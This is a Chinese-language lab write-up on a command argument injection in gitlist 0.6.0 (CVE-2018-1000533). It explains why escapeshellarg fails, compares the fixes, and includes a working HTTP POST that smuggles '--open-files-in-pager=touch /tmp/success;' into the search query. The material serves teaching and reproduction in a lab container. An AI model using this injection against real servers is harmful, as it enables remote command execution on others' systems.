



# gitlist 0.6.0 远程命令执行漏洞（CVE-2018-1000533）

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本及以前，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞原理

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：


导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```



如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

当然，gitlist的开发者用了另一种修复方案：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。



所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：


